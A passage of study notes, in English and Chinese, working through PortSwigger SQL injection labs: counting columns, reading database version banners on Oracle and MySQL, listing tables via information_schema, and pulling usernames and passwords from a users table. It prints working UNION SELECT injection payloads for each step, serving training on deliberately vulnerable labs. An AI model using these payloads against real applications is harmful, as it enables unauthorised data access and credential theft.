 1. Find how many columns are there in the table. Add `'ORDER BY num'` to the end of the url and find that there are two columns.
2. Find that the second column has the datatype sting.
3. Add the following query to return the banner of the database.

`'UNION SELECT NULL, banner FROM v$version--`

Result:

 <img src="https://tva1.sinaimg.cn/large/008i3skNgy1gyztugzf0pj30vg09cdgw.jpg" alt="image-20220202203119278" style="zoom:50%;" />

[Lab Query the database and version (MySQL and Microsoft)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

1. First, determine the number of columns of the returned table using `'UNION SELECT NULL, NULL#`. Then we know that there are two columns.
2. Second, find the data type of these columns to see if they are string. By setting each `NULL` to `'a'`, two columns have the same data type of string, so we can use either to perform the SQL injection
3. Get the database version by the following query:`'UNION SELECT @@version, NULL#`

Result: 

<img src="https://tva1.sinaimg.cn/large/008i3skNgy1gyzvkzwpt7j305003a3ya.jpg" alt="image-20220202213128309" style="zoom:50%;" />

#### Listing the content of the database

Most databases (except for Oracle) have views that provide information about the database. For example `information_schema` that contains the table names and column names for each table.

[Lab SQL injection, listing the databases on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

1. 首先还是通过NULL来决定表的每一列的数据类型。`'UNION SELECT NULL, NULL--`
2. 然后查看`information_schema`中的表名都是什么。`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

3. 找到一个user开头的表名，应该就是存放用户信息的，进一步看这个表中有哪些列。`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_tsxwcv'--`

   

   ![image-20220208150439802](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i4f319oj30by02kwec.jpg)![image-20220208150459170](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i4pgcnqj30as03yt8m.jpg)

4. 这样就找到了存放用户名和密码的列。再次请求得到admin的密码即可。`'+UNION+SELECT+username_qvqafc,+password_zecjow+FROM+users_tsxwcv--`

![image-20220208150811298](https://tva1.sinaimg.cn/large/008i3skNgy1gz6i81e4t6j30fs04o3yi.jpg)

#### 在Oracle中的类似操作

在oracle中，只需要进行一些修改即可得到相同的数据。所有表的信息可以从`all_tables`获得，具体列名可以通过以下命令获得：

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`



> [Lab SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
